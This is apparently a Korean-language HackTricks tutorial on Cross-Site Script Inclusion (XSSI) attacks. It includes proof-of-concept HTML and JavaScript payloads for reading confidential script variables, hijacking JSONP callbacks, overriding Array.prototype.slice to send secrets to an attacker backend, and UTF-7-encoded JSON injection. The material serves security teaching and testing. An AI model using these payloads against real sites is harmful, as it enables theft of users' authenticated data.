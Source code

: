 # XSSI (Cross-Site Script Inclusion)

{{#include ../banners/hacktricks-training.md}}

## 기본 정보

**Cross-Site Script Inclusion (XSSI)**는 HTML의 `script` 태그의 특성에서 발생하는 취약점입니다. 대부분의 리소스가 **Same-Origin Policy (SOP)**의 적용을 받는 것과 달리, 스크립트는 다른 도메인에서 포함될 수 있습니다. 이 동작은 다른 서버에 호스팅된 라이브러리 및 기타 리소스의 사용을 용이하게 하기 위한 것이지만, 잠재적인 보안 위험도 초래합니다.

### **XSSI**의 주요 특징:

- **SOP 우회**: 스크립트는 **Same-Origin Policy**의 적용을 받지 않아 도메인 간에 포함될 수 있습니다.
- **데이터 노출**: 공격자는 이 동작을 이용해 `script` 태그를 통해 로드된 데이터를 읽을 수 있습니다.
- **동적 JavaScript/JSONP에 미치는 영향**: **XSSI**는 동적 JavaScript 또는 **JSON with Padding (JSONP)**와 특히 관련이 있습니다. 이러한 기술은 종종 인증을 위해 "ambient-authority" 정보(예: 쿠키)를 사용합니다. 다른 호스트에 스크립트 요청이 이루어질 때, 이러한 자격 증명(예: 쿠키)은 요청에 자동으로 포함됩니다.
- **인증 토큰 유출**: 공격자가 사용자의 브라우저를 속여 자신이 제어하는 서버에서 스크립트를 요청하게 만들 수 있다면, 이러한 요청에 포함된 민감한 정보에 접근할 수 있을 것입니다.

### 유형

1. **정적 JavaScript** - XSSI의 전통적인 형태를 나타냅니다.
2. **인증이 필요한 정적 JavaScript** - 이 유형은 접근을 위해 인증이 필요하다는 점에서 다릅니다.
3. **동적 JavaScript** - 동적으로 콘텐츠를 생성하는 JavaScript를 포함합니다.
4. **비 JavaScript** - JavaScript와 직접적으로 관련되지 않은 취약점을 나타냅니다.

**다음 정보는 [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**의 요약입니다. 추가 세부정보는 해당 링크를 확인하세요.

### 일반 XSSI

이 접근 방식에서는 개인 정보가 전 세계에서 접근 가능한 JavaScript 파일에 포함됩니다. 공격자는 파일 읽기, 키워드 검색 또는 정규 표현식과 같은 방법을 사용하여 이러한 파일을 식별할 수 있습니다. 위치가 확인되면, 개인 정보가 포함된 스크립트는 악의적인 콘텐츠에 포함되어 민감한 데이터에 대한 무단 접근을 허용할 수 있습니다. 아래에 예시적인 공격 기법이 나와 있습니다:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script>
alert(JSON.stringify(confidential_keys[0]))
</script>
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI

이러한 유형의 XSSI 공격은 사용자의 요청에 따라 기밀 정보가 동적으로 스크립트에 추가되는 것을 포함합니다. 쿠키가 있는 요청과 없는 요청을 보내고 응답을 비교하여 탐지가 수행될 수 있습니다. 정보가 다르면 기밀 정보의 존재를 나타낼 수 있습니다. 이 프로세스는 [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp 확장과 같은 도구를 사용하여 자동화할 수 있습니다.

기밀 데이터가 전역 변수에 저장되어 있는 경우, Regular XSSI에서 사용되는 유사한 방법을 사용하여 악용될 수 있습니다. 그러나 기밀 데이터가 JSONP 응답에 포함된 경우, 공격자는 콜백 함수를 탈취하여 정보를 검색할 수 있습니다. 이는 전역 객체를 조작하거나 JSONP 응답에 의해 실행될 함수를 설정하여 수행할 수 있습니다.
```html
<script>
var angular = function () {
return 1
}
angular.callbacks = function () {
return 1
}
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked))
}
</script>
<script
src="https://site.tld/p?jsonp=angular.callbacks._7"
type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked))
}
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
전역 네임스페이스에 존재하지 않는 변수의 경우, _prototype tampering_이 때때로 악용될 수 있습니다. 이 기술은 호출된 속성을 찾기 위해 프로토타입 체인을 탐색하는 JavaScript의 설계를 활용합니다. `Array`의 `slice`와 같은 특정 함수를 재정의함으로써, 공격자는 비전역 변수를 접근하고 유출할 수 있습니다:
```javascript
Array.prototype.slice = function () {
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this)
}
```
공격 벡터에 대한 추가 세부정보는 보안 연구원 [Sebastian Lekies](https://twitter.com/slekies)의 작업에서 찾을 수 있으며, 그는 [vectors](http://sebastian-lekies.de/leak/) 목록을 유지하고 있습니다.

### Non-Script-XSSI

Takeshi Terada의 연구는 Non-Script 파일, 예를 들어 CSV가 `script` 태그의 소스로 포함되어 교차 출처로 유출되는 또 다른 형태의 XSSI를 소개합니다. Jeremiah Grossman의 2006년 공격으로 Google 주소록 전체를 읽고 Joe Walker의 2007년 JSON 데이터 유출과 같은 XSSI의 역사적 사례는 이러한 위협의 심각성을 강조합니다. 또한, Gareth Heyes는 특정 브라우저에서 효과적인 JSON 형식을 탈출하고 스크립트를 실행하기 위해 UTF-7로 인코딩된 JSON을 포함하는 공격 변형을 설명합니다.
```javascript
;[
{
friend: "luke",
email:
"+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-",
},
]
```

```html
<script
src="http://site.tld/json-utf7.json"
type="text/javascript"
charset="UTF-7"></script>
```
{{#include ../banners/hacktricks-training.md}}
